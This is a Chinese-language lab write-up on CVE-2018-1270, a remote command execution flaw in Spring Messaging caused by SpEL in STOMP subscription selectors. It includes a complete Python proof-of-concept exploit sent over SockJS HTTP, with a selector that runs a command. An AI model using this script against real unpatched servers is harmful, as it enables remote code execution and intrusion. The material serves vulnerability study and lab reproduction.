 （CVE-2018-1270）Spring Messaging 远程命令执行漏洞
==================================================

一、漏洞简介
------------

spring
messaging为spring框架提供消息支持，其上层协议是STOMP，底层通信基于SockJS，

在spring
messaging中，其允许客户端订阅消息，并使用selector过滤消息。selector用SpEL表达式编写，并使用`StandardEvaluationContext`解析，造成命令执行漏洞。

二、漏洞影响
------------

Spring Java Framework \< 5.0

三、复现过程
------------

网上大部分文章都说spring messaging是基于websocket通信，其实不然。spring
messaging是基于sockjs（可以理解为一个通信协议），而sockjs适配多种浏览器：现代浏览器中使用websocket通信，老式浏览器中使用ajax通信。

连接后端服务器的流程，可以理解为：

1.  用[STOMP协议](http://jmesnil.net/stomp-websocket/doc/)将数据组合成一个文本流
2.  用[sockjs协议](https://github.com/sockjs/sockjs-client)发送文本流，sockjs会选择一个合适的通道：websocket或xhr(http)，与后端通信

所以我们可以使用http来复现漏洞，称之为"降维打击"。

我编写了一个简单的POC脚本exploit.py（需要用python3.6执行），因为该漏洞是订阅的时候插入SpEL表达式，而对方向这个订阅发送消息时才会触发，所以我们需要指定的信息有：

1.  基础地址，在vulhub中为`http://your-ip:8080/gs-guide-websocket`
2.  待执行的SpEL表达式，如`T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')`
3.  某一个订阅的地址，如vulhub中为：`/topic/greetings`
4.  如何触发这个订阅，即如何让后端向这个订阅发送消息。在vulhub中，我们向`/app/hello`发送一个包含name的json，即可触发这个事件。当然在实战中就不同了，所以这个poc并不具有通用性。

根据你自己的需求修改POC。如果是vulhub环境，你只需修改1中的url即可。

    CVE-2018-1270.py
    #!/usr/bin/env python3
    import requests
    import random
    import string
    import time
    import threading
    import logging
    import sys
    import json

    logging.basicConfig(stream=sys.stdout, level=logging.INFO)

    def random_str(length):
        letters = string.ascii_lowercase + string.digits
        return ''.join(random.choice(letters) for c in range(length))


    class SockJS(threading.Thread):
        def __init__(self, url, *args, **kwargs):
            super().__init__(*args, **kwargs)
            self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
            self.daemon = True
            self.session = requests.session()
            self.session.headers = {
                'Referer': url,
                'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
            }
            self.t = int(time.time()*1000)

        def run(self):
            url = f'{self.base}/htmlfile?c=_jp.vulhub'
            response = self.session.get(url, stream=True)
            for line in response.iter_lines():
                time.sleep(0.5)
        
        def send(self, command, headers, body=''):
            data = [command.upper(), '\n']

            data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
            
            data.append('\n\n')
            data.append(body)
            data.append('\x00')
            data = json.dumps([''.join(data)])

            response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
            if response.status_code != 204:
                logging.info(f"send '{command}' data error.")
            else:
                logging.info(f"send '{command}' data success.")

        def __del__(self):
            self.session.close()


    sockjs = SockJS('http://your-ip:8080/gs-guide-websocket')
    sockjs.start()
    time.sleep(1)

    sockjs.send('connect', {
        'accept-version': '1.1,1.0',
        'heart-beat': '10000,10000'
    })
    sockjs.send('subscribe', {
        'selector': "T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')",
        'id': 'sub-0',
        'destination': '/topic/greetings'
    })

    data = json.dumps({'name': 'vulhub'})
    sockjs.send('send', {
        'content-length': len(data),
        'destination': '/app/hello'
    }, data)

执行：

![1.png](resource/(CVE-2018-1270)SpringMessaging远程命令执行漏洞/media/rId26.png)

进入容器`docker-compose exec spring bash`，可见`/tmp/success`已成功创建：

![2.png](resource/(CVE-2018-1270)SpringMessaging远程命令执行漏洞/media/rId27.png)

